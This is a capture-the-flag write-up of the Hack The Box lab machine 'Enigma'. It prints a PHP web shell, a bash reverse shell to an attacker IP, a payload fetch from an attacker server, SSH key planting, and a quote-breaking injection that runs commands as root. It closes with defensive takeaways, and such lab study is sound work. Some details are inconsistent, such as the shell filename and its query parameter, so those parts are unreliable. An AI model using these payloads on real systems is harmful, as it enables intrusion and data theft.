# Hack The Box — Enigma (Easy Linux)

**Platform:** Hack The Box — Season 11 (Live)
**Difficulty:** Easy
**OS:** Linux
**Flags:** User ✅ | Root ✅
https://labs.hackthebox.com/achievement/machine/533012/915

---

## Overview

Enigma is an Easy-rated Linux machine that chains together several distinct attack primitives across a realistic corporate-style environment. An exposed NFS share leaks an onboarding PDF containing initial credentials. Those credentials — and a weak password reuse pattern — provide access to a Roundcube webmail instance, where further credentials are discovered in a user's inbox. These grant access to an OpenSTAManager support portal vulnerable to an authenticated file upload flaw, yielding a web shell. Database credentials recovered from the application's config file allow MySQL access; a bcrypt hash for a local user is cracked offline and used to pivot to that account. Privilege escalation abuses OliveTin — a root-owned action runner service listening on localhost — whose "Backup Database" action is vulnerable to argument injection through an unsanitised template parameter, allowing arbitrary command execution as root.

---

## Reconnaissance

### Port Scan

A targeted Nmap scan was run against the machine with version detection and relevant NSE scripts:

```bash
nmap -p 22,80,110,111,143,993,995,2049 -sV \
  --script=default,banner,ssh-auth-methods,http-enum,\
pop3-capabilities,imap-capabilities,nfs-ls,rpcinfo \
  10.129.37.158
```

The following ports were found open:

```
22/tcp    open  ssh
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
993/tcp   open  imaps
995/tcp   open  pop3s
2049/tcp  open  nfs
```

The presence of NFS (port 2049) and rpcbind (port 111) alongside a full mail stack (POP3, IMAP, their SSL variants) was immediately notable and prioritised for enumeration.

---

## Enumeration

### NFS Share — Onboarding PDF

NFS exports were enumerated to identify accessible shares:

```bash
showmount -e 10.129.37.158
```

The share `/srv/nfs/onboarding` was found to be world-accessible. It was mounted locally for inspection:

```bash
sudo mkdir /mnt/enigma_nfs
sudo mount -t nfs 10.129.37.158:/srv/nfs/onboarding /mnt/enigma_nfs -o nolock
ls -la /mnt/enigma_nfs
```


A PDF was present on the share. Its contents revealed an employee onboarding document issued by the Enigma Corp IT department:

```
Employee  : Kevin Mitchell
Department: Operations

Webmail Access
URL      : http://mail001.enigma.htb
Username : kevin
Password : Enigma2024!
```

### Virtual Host Registration

The webmail hostname was not resolvable by default and was added to the local hosts file:

```bash
echo "10.129.37.158 mail001.enigma.htb" | sudo tee -a /etc/hosts
```

### Roundcube Webmail — Credential Reuse (kevin → sarah)

Browsing to `http://mail001.enigma.htb` revealed a **Roundcube Webmail 1.6.16** login panel.



Login as `kevin` with the discovered password was attempted. Password reuse was then tested against the `sarah` account, which succeeded:

```
Username : sarah
Password : Enigma2024!
```

### Email Inbox — Support Portal Credentials

After logging in as `sarah`, her inbox contained a message from IT Support provisioning access to an internal support portal:

```
URL      : http://support_001.enigma.htb
Username : admin
Password : Ne3s4rtars78s
```

The support portal hostname was added to the hosts file:

```bash
echo "10.129.37.158 support_001.enigma.htb" | sudo tee -a /etc/hosts
```



### OpenSTAManager — Version Fingerprinting

Browsing to `http://support_001.enigma.htb` and logging in with the admin credentials revealed the application was running **OpenSTAManager 2.9.8**.



Research confirmed this version is vulnerable to an authenticated arbitrary file upload that allows placing a PHP file in the web root.

---

## Exploitation

### OpenSTAManager — Authenticated File Upload (Web Shell)

A PHP web shell was prepared and packaged into a ZIP archive for upload through the vulnerable module update mechanism:

```bash
mkdir -p exploit/files
cat > exploit/files/shell.php << 'EOF'
<?php system($_GET['cmd']); ?>
EOF

cd exploit
zip -r ../payload.zip files/
```

The ZIP was uploaded via the vulnerable endpoint at:

```
http://support_001.enigma.htb/controller.php?id_module=14&id_plugin=48
```

After upload, the shell was accessible at:

```
http://support_001.enigma.htb/files/SHELL.php
```

Command execution was verified via the `cmd` parameter. A Netcat listener was started on the attacker machine:

```bash
nc -lvnp 4444
```

A bash reverse shell was triggered through the web shell:

```bash
curl "http://support_001.enigma.htb/files/SHELL.php?c=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.244%2F4444%200%3E%261%22"
```

A shell was received as `www-data`.



---

## Post-Exploitation — Lateral Movement to haris

### User Enumeration

With a shell on the target, `/etc/passwd` was reviewed. The following interactive-shell accounts were identified as targets:

```
root   (uid=0)
haris  (uid=1000) — /home/haris — /bin/bash
kevin  (uid=1001)
sarah  (uid=1002)
it     (uid=1003)
```

### Database Credential Harvesting

LinPEAS was transferred to the target and executed to accelerate enumeration:

```bash
# Attacker machine
python3 -m http.server 8000

# Target
wget http://10.10.14.30:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


The OpenSTAManager application configuration file was read directly to recover database credentials:

```bash
cat /var/www/html/openstamanager/config.inc.php
```

The following MySQL credentials were extracted:

```
db_user     : brollin
db_password : Fri3nds@9099
db_name     : openstamanager
```

### MySQL — Extracting the haris Hash

The database was accessed using the recovered credentials:

```bash
mysql -u brollin -p'Fri3nds@9099' openstamanager
```

The application's user table was queried for password hashes:

```sql
SELECT username, password FROM zz_users;
```

The bcrypt hash for `haris` was recovered:

```
haris : $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC
```



### Offline Hash Cracking — Hashcat

The hash was saved and cracked offline using Hashcat in bcrypt mode (3200) against the rockyou wordlist:

```bash
echo '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC' > haris.hash
hashcat -m 3200 haris.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

The hash cracked to:

```
Password : bestfriends
```


### Pivoting to haris

From the `www-data` shell, the session was pivoted to `haris`:

```bash
su haris
# Password: bestfriends
```


---

## User Flag

```bash
cat /home/haris/user.txt
```

```
ec004f6f9c9629173140654e1643cf08
```



---

## Establishing a Stable SSH Session

To ensure a reliable shell for privilege escalation, an SSH key pair was generated on the attacker machine and the public key was injected into `haris`'s `authorized_keys`:

```bash
# Attacker machine
ssh-keygen -t ed25519 -f ~/.ssh/enigma_haris -N ""
cat ~/.ssh/enigma_haris.pub
```



```bash
# Target (as haris)
mkdir -p /home/haris/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFSgEAi5raVG43PCvQacTkRHpX2ucKxOmmbWaw4tZHiu kali@kali' \
  > /home/haris/.ssh/authorized_keys
chmod 700 /home/haris/.ssh
chmod 600 /home/haris/.ssh/authorized_keys
chown -R haris:haris /home/haris/.ssh
```


```bash
# Attacker machine — connect
ssh -i ~/.ssh/enigma_haris -o IdentitiesOnly=yes haris@10.129.37.158
```



---

## Privilege Escalation

### OliveTin Discovery

A second LinPEAS run from the stable SSH session flagged an unfamiliar service: **OliveTin** — a browser-based action runner.



The OliveTin configuration file was world-readable:

```bash
cat /etc/OliveTin/config.yaml
```

Key observations from the config:

- OliveTin is running as **root**
- It is listening on **127.0.0.1:1337** (localhost only)
- `authRequireGuestsToLogin: false` — no authentication required
- A "Backup Database" action is defined with the following shell template:

```bash
mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql
```

The `{{ db_pass }}` value is inserted inside single quotes without sanitisation — this is a classic argument injection point.

### SSH Port Forward — Exposing OliveTin

Since OliveTin only listens on localhost, an SSH local port forward was established to reach the UI from the attacker machine:

#### OLivinTin port 


```bash
ssh -i ~/.ssh/enigma_haris -o IdentitiesOnly=yes \
  -L 1337:127.0.0.1:1337 haris@10.129.37.158
```


The OliveTin web UI was then accessible at `http://localhost:1337` with no login required.



### Argument Injection — Reading root.txt

The "Backup Database" action was opened in the UI. The `db_pass` field was injected with a payload designed to break out of the surrounding single quotes and execute an arbitrary command:

```
x' ; cat /root/root.txt ; #
```

This causes the underlying shell command to expand as:

```bash
mysqldump -u backup_svc -p'x' ; cat /root/root.txt ; #' production > /opt/backups/backup.sql
```

The `mysqldump` call fails on the bad password, but the second command — `cat /root/root.txt` — executes as root, and its output is returned directly in the OliveTin action output panel.




---

## Root Flag

```
33414b28f2d67cf5987cce3629307ead
```



---

## Summary

| Phase | Technique | Detail |
|---|---|---|
| Reconnaissance | Nmap + NSE Scripts | 8 ports open; NFS and full mail stack identified |
| Enumeration | NFS Share Access | World-accessible share exposes onboarding PDF with credentials |
| Credential Discovery | PDF Leak | `kevin` / `Enigma2024!` recovered; reused for `sarah` |
| Email Enumeration | Roundcube Webmail | `sarah`'s inbox contains support portal admin credentials |
| Initial Access | OpenSTAManager File Upload | Authenticated PHP web shell upload → reverse shell as `www-data` |
| Lateral Movement | MySQL Credential Harvest + Hash Crack | bcrypt hash for `haris` extracted and cracked offline → `bestfriends` |
| Persistence | SSH Key Injection | Stable SSH session established as `haris` |
| Privilege Escalation | OliveTin Argument Injection | Root-owned action runner with unsanitised template parameter → RCE as root |

---

## Key Takeaways

- **NFS shares exposing internal documents** to unauthenticated clients is a critical misconfiguration. Onboarding documents containing credentials should never be stored on world-accessible network shares; NFS exports should enforce host-based ACLs at minimum.
- **Password reuse across internal services** provided two distinct lateral movement opportunities in this machine — from `kevin`'s password working for `sarah`, and from database credentials matching a local user's shell password. Enforcing unique credentials per service and per user is non-negotiable.
- **Application configuration files containing database credentials** in a web-accessible directory are a persistent and frequently overlooked risk. `config.inc.php` being readable by `www-data` enabled the full pivot to `haris`.
- **Bcrypt does not make passwords uncrackable** — it makes cracking expensive. A weak password like `bestfriends` will fall to rockyou regardless of the hashing algorithm. Password strength and hashing work together; neither alone is sufficient.
- **Template-based shell command construction without sanitisation** is functionally equivalent to an OS command injection vulnerability. Any user-controlled string interpolated into a shell command — even inside quotes — must be treated as untrusted input. OliveTin's `db_pass` parameter being injectable while the action runs as root represents a complete privilege boundary failure.
- **Locally-bound services running as root** are a consistently high-value target in privilege escalation. The absence of network exposure does not reduce risk if a low-privileged user can tunnel to the service via SSH.